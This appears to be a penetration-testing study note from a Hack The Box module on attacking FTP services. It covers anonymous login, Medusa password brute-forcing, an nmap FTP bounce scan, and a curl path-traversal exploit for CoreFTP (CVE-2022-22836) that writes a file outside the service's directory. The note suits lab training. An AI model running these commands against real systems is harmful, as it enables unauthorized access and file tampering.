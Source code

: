 # Attacking FTP

***

### <mark style="color:blue;">Enumeration</mark>

`Nmap` default scripts `-sC` includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) Nmap script which checks if a FTP server allows anonymous logins. The version enumeration flag `-sV` provides interesting information about FTP services, such as the FTP banner, which often includes the version name. We can use the `ftp` client or `nc` to interact with the FTP service. By default, FTP runs on TCP port 21.

<mark style="color:orange;">**Nmap**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 .
```

***

### <mark style="color:blue;">Misconfigurations</mark>

As we discussed, anonymous authentication can be configured for different services such as FTP. To access with anonymous login, we can use the `anonymous` username and no password. This will be dangerous for the company if read and write permissions have not been set up correctly for the FTP service. Because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

<mark style="color:orange;">**Anonymous Authentication**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ ftp 192.168.2.142    

```

To download a single file, we use `get`, and to download multiple files, we can use `mget`. For upload operations, we can use `put` for a simple file or `mput` for multiple files. We can use `help` in the FTP client session for more information.

***

### <mark style="color:blue;">Protocol Specifics Attacks</mark>

Many different attacks and methods are protocol-based. However, it is essential to note that we are not attacking the individual protocols themselves but the services that use them. Since there are dozens of services for a single protocol and they process the corresponding information differently, we will look at some.

#### <mark style="color:green;">**Brute Forcing**</mark>

If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different tools to perform a brute-forcing attack. Let us explore one of them, [Medusa](https://github.com/jmk-foofus/medusa). With `Medusa`, we can use the option `-u` to specify a single user to target, or you can use the option `-U` to provide a file with a list of usernames. The option `-P` is for a file containing a list of passwords. We can use the option `-M` and the protocol we are targeting (FTP) and the option `-h` for the target hostname or IP address.

<mark style="color:orange;">**Brute Forcing with Medusa**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
{% endcode %}

#### <mark style="color:green;">**FTP Bounce Attack**</mark>

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

![text](https://academy.hackthebox.com/storage/modules/116/ftp_bounce_attack.png)

The `Nmap` -b flag can be used to perform an FTP bounce attack:

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
{% endcode %}

***

### <mark style="color:blue;">Latest FTP Vulnerabilities</mark>

***

In this case, we will discuss the `CoreFTP before build 727` vulnerability assigned [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability. This vulnerability allows us to write files outside the directory to which the service has access.

***

#### <mark style="color:green;">The Concept of the Attack</mark>

This FTP service uses an HTTP `POST` request to upload files. However, the CoreFTP service allows an HTTP `PUT` request, which we can use to write content to files. Let's have a look at the attack based on our concept. The [exploit](https://www.exploit-db.com/exploits/50652) for this attack is relatively straightforward, based on a single `cURL` command.

#### <mark style="color:green;">**CoreFTP Exploitation**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
{% endcode %}

We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system.

#### <mark style="color:green;">**The Concept of Attacks**</mark>

![](https://academy.hackthebox.com/storage/modules/116/attack_concept2.png)

#### <mark style="color:green;">**Directory Traversal**</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th><th></th></tr></thead><tbody><tr><td><strong>Step</strong></td><td><strong>Directory Traversal</strong></td><td><strong>Concept of Attacks - Category</strong></td></tr><tr><td><code>1.</code></td><td>The user specifies the type of HTTP request with the file's content, including escaping characters to break out of the restricted area.</td><td><code>Source</code></td></tr><tr><td><code>2.</code></td><td>The changed type of HTTP request, file contents, and path entered by the user are taken over and processed by the process.</td><td><code>Process</code></td></tr><tr><td><code>3.</code></td><td>The application checks whether the user is authorized to be in the specified path. Since the restrictions only apply to a specific folder, all permissions granted to it are bypassed as it breaks out of that folder using the directory traversal.</td><td><code>Privileges</code></td></tr><tr><td><code>4.</code></td><td>The destination is another process that has the task of writing the specified contents of the user on the local system.</td><td><code>Destination</code></td></tr></tbody></table>

Up to this point, we have bypassed the constraints imposed by the application using the escape characters (`../../../../`) and come to the second part, where the process writes the contents we specify to a file of our choice. This is when the cycle starts all over again, but this time to write contents to the target system.

#### <mark style="color:green;">**Arbitrary File Write**</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th><th></th></tr></thead><tbody><tr><td><strong>Step</strong></td><td><strong>Arbitrary File Write</strong></td><td><strong>Concept of Attacks - Category</strong></td></tr><tr><td><code>5.</code></td><td>The same information that the user entered is used as the source. In this case, the filename (<code>whoops</code>) and the contents (<code>--data-binary "PoC."</code>).</td><td><code>Source</code></td></tr><tr><td><code>6.</code></td><td>The process takes the specified information and proceeds to write the desired content to the specified file.</td><td><code>Process</code></td></tr><tr><td><code>7.</code></td><td>Since all restrictions were bypassed during the directory traversal vulnerability, the service approves writing the contents to the specified file.</td><td><code>Privileges</code></td></tr><tr><td><code>8.</code></td><td>The filename specified by the user (<code>whoops</code>) with the desired content (<code>"PoC."</code>) now serves as the destination on the local system.</td><td><code>Destination</code></td></tr></tbody></table>

After the task has been completed, we will be able to find this file with the corresponding contents on the target system.

**Target System**

```cmd-session
C:\> type C:\whoops

PoC.
```
